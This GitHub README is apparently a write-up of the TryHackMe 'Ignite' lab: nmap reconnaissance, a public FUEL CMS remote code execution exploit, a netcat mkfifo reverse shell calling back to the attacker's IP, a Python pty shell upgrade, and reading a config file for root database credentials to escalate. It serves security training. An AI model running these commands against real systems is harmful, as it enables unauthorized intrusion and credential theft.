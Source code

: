 # [Ignite](https://tryhackme.com/room/ignite)

`Machine's IP - 10.10.51.11`

# Reconnaissance and Discovery
So, the first thing was to start out with a simple nmap scan and outputting the results to a log file.

`nmap -sS -sC -sV 10.10.51.11 -Pn > nmap-ignite.log`

# Analyzing Information and Risks
The important thing that caught my eye was that only port 80 was accepting connections, so I decided to check that out. The first thing to point out was that it was the default page for a CMS (Content Management System) for a tool calld Fuel.

```
Starting Nmap 7.70 ( https://nmap.org ) at 2020-11-18 19:33 Central Standard Time (Mexico)
Nmap scan report for 10.10.51.11
Host is up (0.25s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry
|_/fuel/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome to FUEL CMS

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 53.39 seconds
```

With no current lead, I searched `fuel cms 1.4 exploit db` and came up with a Remote Code Execution vulnerability that allows [PHP Code Evaluation that can lead to Pre-Auth RCE](https://www.cvedetails.com/cve/CVE-2018-16763/), like I noticied. [ExploitDB code](https://www.exploit-db.com/exploits/47138). Downloading the script, I changed the following:

* url = "http://machine-ip/"
* URL = url+"/fuel/pa....
* r = requests.get(URL)

Upon doing that, I ran the script using `Python 2` and checked my initial privileges.

```
> python 47138.py
cmd:whoami
systemwww-data

<div style="bo" ..
```

With the response, I noticed that we could probably get a better foothold of the box with `Netcat`. So I started a listener: 

```
> nc -lvnp port
listening on [any] 4445 ...
```

Then I went to [pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) and selected the command for different versions of netcat, just in case. I ran the command in the cmd prompt of the python file from earlier.

```
cmd:rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.6.20.112 4445 >/tmp/f
```

Upon running the command, the netcat listener prompted with an incoming connection.

```
connect to [10.6.20.112] from (UNKNOWN) [10.10.51.11] 53996
/bin/sh: 0: can't access tty; job control turned off
$
```

With having an initial shell, I thought of elevating it to a normal bash shell using Python from the [NETSEC](https://netsec.ws/?p=337) list for spawning shell's. 

```python
python -c 'import pty; pty.spawn("/bin/bash")'
```

It gave me the following output:

```bash
$ python -c 'import pty; pty.spawn("/bin/bash")'
www-data@ubuntu:/var/www/html$ whoami
whoami
www-data
```

Finally, we can possibly start with something like [Linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) but since we don't even have a user password or account than we probably can't even run scripts. Also, I decided that we are in an application directory, giving us the possibility of an user account credentials in a config folder or file. So I moved through  the directories and eventually found the `user.txt`:

```
www-data@ubuntu:/home/www-data$ ls
ls
flag.txt
www-data@ubuntu:/home/www-data$ cat flag.txt
cat flag.txt
********************************
```

Also, in the directory `/var/www/html/fuel/application/config` I came upon a `database.php` so I printed the contents of the file which gave me the following interesting information:

```
$db['default'] = array(
        'dsn'   => '',
        'hostname' => 'localhost',
        'username' => 'root',
        'password' => '******',
        'database' => 'fuel_schema',
        'dbdriver' => 'mysqli',
        'dbprefix' => '',
        'pconnect' => FALSE,
        'db_debug' => (ENVIRONMENT !== 'production'),
        'cache_on' => FALSE,
        'cachedir' => '',
        'char_set' => 'utf8',
        'dbcollat' => 'utf8_general_ci',
        'swap_pre' => '',
        'encrypt' => FALSE,
        'compress' => FALSE,
        'stricton' => FALSE,
        'failover' => array(),
        'save_queries' => TRUE
);
```

With this, I changed my account `sudo -` and specified the password. Then, I went to the root directory which gave me the final `root.txt`

```
root@ubuntu:~# ls               
ls                              
root.txt                        
root@ubuntu:~# cat root.txt     
cat root.txt                    
********************************
```

## License
[MIT](https://choosealicense.com/licenses/mit/)
